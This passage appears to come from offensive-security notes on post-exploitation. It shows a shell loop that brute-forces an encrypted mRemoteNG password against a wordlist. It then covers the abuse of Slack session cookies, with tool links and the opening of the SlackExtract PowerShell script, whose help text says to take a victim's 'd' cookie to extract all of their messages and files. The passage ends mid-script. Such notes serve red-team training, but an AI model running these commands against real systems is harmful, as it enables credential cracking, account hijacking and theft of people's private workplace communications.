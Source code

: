 ```shell
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
```


## Abusing Cookies to Get Access to IM Clients

With the ability to instantaneously send messages between co-workers and teams, instant messaging (IM) applications like `Slack` and `Microsoft Teams` have become staples of modern office communications.

### Slack

**Resources**:

- https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282
- https://thomfre.dev/post/2021/phishing-for-slack-tokens/



**Tools**:
-  [SlackExtract](https://github.com/clr2of8/SlackExtract) 
- [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)
- [SharpChromium](https://github.com/djhohnstein/SharpChromium)

#### SlackExtract

This would be SlackExtract.ps1

```powershell
function Invoke-SlackExtract{
 <#
    .SYNOPSIS
    This module will extract all messages and files that a given user has access to in Slack
    Author: Carrie Roberts (@OrOneEqualsOne)
    Version: 1.1
    License: BSD 3-Clause

    .DESCRIPTION
    This module will extract all messages and files that a given user has access to in Slack. Or, optionally specifiy specific channels to download from.

    .PARAMETER OutputFolderName
    [Required] The output folder name to store all messages and files inside of the "My Documents" folder. This is useful for keeping data from multiple users separate, or to keep output from multiple runs of the script separate.

    .PARAMETER SlackUrl
    [Required] The base URL of the slack instance. For example "https://slackextract.slack.com"

    .PARAMETER dCookie
    [Required if SlackToken not specified] The "d" cookie from .slack.com. Login to Slack as your victim user and then extract this cookie value for use with this script.

    .PARAMETER ChannelIds
    [Optional] The Channel IDs that you want to extract messages and files for. Channel IDs generally start with a "C","G" or "D". If you do not specify ChannelIds, the script will download messages and files from ALL channels. You can determine the channel ID by inspecting the URL in the browser (e.g. https://slackextract.slack.com/messages/CC74THDHB/ would have  a channel ID of CC74THDHB) 

    .PARAMETER ExcludeChannelIds
    [Optional] A list of Channel IDs that you do not want to extract messages or files for.

    .PARAMETER MaxMessagesPerChannel
```